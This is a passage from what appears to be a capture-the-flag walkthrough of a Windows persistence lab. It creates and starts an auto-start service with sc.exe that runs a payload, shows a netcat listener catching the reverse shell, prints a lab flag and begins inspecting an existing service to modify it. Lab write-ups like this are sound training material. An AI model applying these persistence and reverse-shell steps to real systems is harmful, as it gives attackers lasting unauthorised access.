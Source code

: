 ```PowerShell
PS C:\Users\Administrator> sc.exe create THMservice binPath= "C:\Users\Administrator\Payload.exe" start= auto
```
9. `sc.exe start <SERVICE NAME>` from our compromised Windows machine to start the new service that we just created, which executed our payload that resulted in a reverse shell being created which then connected back to our netcat listener that's running on our attack machine
```PowerShell
PS C:\Users\Administrator> sc.exe start THMservice

SERVICE_NAME: THMservice
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 4956
        FLAGS              :
```
```Bash
root@ip-10-10-44-151:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.254.131 49822 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
12. `C:\flags\flag7.exe` from our reverse shell to run the **flag7.exe** program, which ended up displaying this task's flag onto our terminal
```PowerShell
C:\Windows\system32>C:\flags\flag7.exe
C:\flags\flag7.exe
THM{SUSPICIOUS_SERVICES}
```


#
## Modifying Existing Services

1. Started this room's machine
2. `sc.exe query state=all` from the compromised Windows machine to retrieve information about all the services that's on the compromised system and display the retrieved information onto our terminal, which ended displaying a long list of services but the one we'll be focusing on in this task is the **THMservice3** service
3. `sc.exe qc <SERVICE NAME>` from the compromised Windows machine to retrieve and display onto our terminal the configuration and settings of our target service (THMuser3) 
```PowerShell
C:\Users\Administrator>sc.exe qc THMService3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMService3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\MyService\THMService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMservice3
        DEPENDENCIES       :
        SERVICE_START_NAME : NT AUTHORITY\Local Service
```